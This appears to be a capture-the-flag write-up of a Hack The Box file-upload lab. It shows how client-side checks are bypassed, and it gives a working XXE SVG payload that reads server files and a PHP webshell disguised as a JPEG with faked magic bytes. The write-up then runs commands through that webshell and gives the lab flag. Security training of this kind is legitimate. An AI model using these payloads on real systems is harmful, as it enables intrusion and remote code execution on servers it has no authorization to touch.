 You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

---

## Extra Exercise

Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206180714.png)

Let's take a look at the site:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206180859.png)

We got some sections that are interesting, the one I'm interested in the most is the contact us one, let's check it out:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206181239.png)

And there we are, we have an upload feature, let's use burp and check the request:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206182157.png)

We can `Do Intercept -> Response to this request`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206182227.png)

We need to erase the `CheckFile()` and change the `accept=`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206182356.png)

Now we are able to upload any kind of file, without the need of it being an image file, let's test the next thing:

## SVG XML Upload
---


We can now test if its possible to enumerate resources in the back-end server using `.svg` files, let's upload a file with the following contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname"> ]>
<svg>&xxe;</svg>
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206183458.png)

If we decode the contents of it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206183516.png)

It works, we are able to upload a malicious svg file, let's read the contents of `/upload.php`:


```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

Now we are able to see the whitelist and the blacklist of the upload endpoint, we can analyze the code and figure out the way to upload our webshell:

```ad-important
- **Blacklist Check**: Blocks `.php`, `.phps`, `.phtml`.
    
- **Whitelist Regex**: Requires the filename to end with `.[2-3 letters]g` (e.g., `.jpg`, `.svg`).
- **MIME/Content-Type Check**: Must be `image/[a-z]{2,3}g` (e.g., `image/svg+xml`).
- Uploads directory
- Format of the file, it goes by date of upload.
```

Let's send an intruder attack in the following way:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206184336.png)

We were able to identify a valid extension: `.phar.jpeg`. Let's proceed.



With this on mind, we can do the following:

```ad-hint
1. Create a php webshell with the right mime-type to bypass the filters.
2. Create a file called `shell.phar.jpeg`.
3. Change the mime type of the file using hexeditor.
```


Let's do it, these are the contents of `shell.phar.jpeg`:

```
AAAA
<?php echo system($_GET["cmd"]);?>
```

Now, we need to change the `AAAA` contents using hexeditor:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206185029.png)

Let's replace them for the JPEG bytes: `FF D8 FF DB`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206185110.png)

Nice, now let's try uploading the file:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206185201.png)

It worked, let's check if the webshell works, in my case, the url would go like this:

```
http://94.237.54.42:58431/contact/user_feedback_submissions/250206_shell.phar.jpeg?cmd=id
```

If we check:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206185927.png)

We got it, let's send it to burp to be more comfortable, let's list the contents:

```
bin
boot
dev
etc
flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var
```

We got our flag, let's read it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206190133.png)

Flag is:

```
HTB{m4573r1ng_upl04d_3xpl0174710n}
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250206190210.png)

